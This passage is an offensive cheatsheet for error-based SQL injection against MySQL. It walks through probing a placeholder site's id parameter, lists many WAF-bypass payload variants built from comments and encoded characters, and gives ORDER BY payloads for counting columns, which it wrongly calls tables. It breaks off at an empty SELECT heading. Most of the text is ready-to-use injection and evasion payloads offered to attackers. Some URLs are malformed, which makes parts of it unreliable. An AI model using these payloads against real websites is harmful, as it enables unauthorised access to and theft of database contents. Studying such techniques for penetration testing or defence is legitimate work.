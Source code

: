 # Error based SQL Injection Cheatsheet

This is probably the easiest vulnerability along the SQL Injection attack. An attacker can enumerate and dump the MySQL database by using the SQL error messages to his advantage.

## Detecting the injection point

```http://domain.com/index.php?id=1``` 
Website loads successfully  

```http://domain.com/index.php?id=1'```   
Error message shows up: ```You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near...```  

```http://domain.com/index.php?id=2-1```  
Website loads successfully

```http://domain.com/index.php?id=-1'```  
Error message shows up again

```http://domain.com/index.php?id=-1)'```  
Error message shows up again

```http://domain.com/index.php?id=1'-- -```  
Website might loads successfuly, but it might shows error also

```http://domain.com/index.php?id=1'--```  
Website might loads successfuly, but it might shows error also

```http://domain.com/index.php?id=1+--+```  
Website might loads successfuly, but it might shows error also

## Bypassing WAF to detect the injection point (if the first methodology didn't work)

In some cases, WAF won't let you to cause errors on the website, so sending special queries might be needed to bypass WAF.

```http://domain.com/index.php?id=1'--/**/-```  
If no WAF Warning is shown and website loads up, we confirm the vulnerability, else try the following payload.

```http://domain.com/index.php?id=1'--/**/-```  
If no WAF Warning is shown and website loads up, we confirm the vulnerability, else try the following payload.

```http//domain.com/index.php?id=/^.*1'--+-.*$/```  
```http//domain.com/index.php?id=/*!500001'--+-*/```  
```http//domain.com/index.php?id=1'--/**/-```  
```http//domain.com/index.php?id=1'--/*--*/-```  
```http//domain.com/index.php?id=1'--/*&a=*/-```  
```http//domain.com/index.php?id=1'--/*1337*/-```  
```http//domain.com/index.php?id=1'--/**_**/-```  
```http//domain.com/index.php?id=1'--%0A-```  
```http//domain.com/index.php?id=1'--%0b-```
```http//domain.com/index.php?id=1'--%0d%0A-```
```http//domain.com/index.php?id=1'--%23%0A-```
```http//domain.com/index.php?id=1'--%23foo%0D%0A-```
```http//domain.com/index.php?id=1'--%23foo*%2F*bar%0D%0A-```  
```http//domain.com/index.php?id=1'--#qa%0A#%0A-```  
```http//domain.com/index.php?id=/*!20000%0d%0a1'--+-*/```  
```http//domain.com/index.php?id=/*!blobblobblob%0d%0a1'--+-*/```

## Find the number of tables using 'ORDER BY' query  

Now that we performed an SQL syntax error to the website, we can begin fuzzing and finding how many tables do we have by using ORDER BY

```http://domain.com/index.php?id=1' order by 1-- -```  
This query musn't shows up error, since there is no lower number than 1  

- If the payload shows up error, try setting a negative value:  
```http://domain.com/index.php?id=-1' order by 1-- -```  
This query musn't shows up error, since there is no lower number than 1  

  - If the payload shows up error, try removing the quote which might cause SQL error:
  ```http://domain.com/index.php?id=605 order by 1-- -```  
  ```http://domain.com/index.php?id=-605 order by 1-- -```  
 These both queries musn't shows up error. If error is still ocurring, try the following payloads:

    - If both of payloads don't work, it is problably a WAF blocking it. Try the following blocks until you won't see WAF detection or SQL syntax error.  
```http://domain.com/index.php?id=1' order by 1 desc-- -```  
```http://domain.com/index.php?id=1' group by 1-- -```  
```http://domain.com/index.php?id=1' group by 1-- -```  
```http://domain.com/index.php?id=1' /**/ORDER/**/BY/**/ 1-- -```  
```http://domain.com/index.php?id=-1' /*!order*/+/*!by*/ 1-- -```  
```http://domain.com/index.php?id=1' /*!ORDER BY*/ 1-- -```  
```http://domain.com/index.php?id=1'/*!50000ORDER*//**//*!50000BY*/ 1-- -```  
```http://domain.com/index.php?id=1' /*!12345ORDER*/+/*!BY*/ 1-- -```  
```http://domain.com/index.php?id=1' /*!50000ORDER BY*/ 1-- -```  
```http://domain.com/index.php?id=1' order/**_**/by 1-- -```  
    
    - If none of the payloads didn't bypass WAF, try again the payloads by following the 2 rules below:
      - Add a minus (-) before 1 (example: ```?id=-1' /**/ORDER/**/BY/**/ 1-- -```)  
      - Remove the quote (') after the parameter value (example: ```?id=1 /**/ORDER/**/BY/**/ 1-- -```)

In this case, the payload ```?id=1 order by 1-- -``` worked and website loads successfuly. Now it is time to find the correct number of tables. Now let's use the payload that worked, and try increasing the number by 1, untill an error shows up:  
```http://domain.com/index.php?id=1 order by 1-- -``` no error  
```http://domain.com/index.php?id=1 order by 2-- -```  

## Find the vulnerable table where information are stored using 'SELECT' query



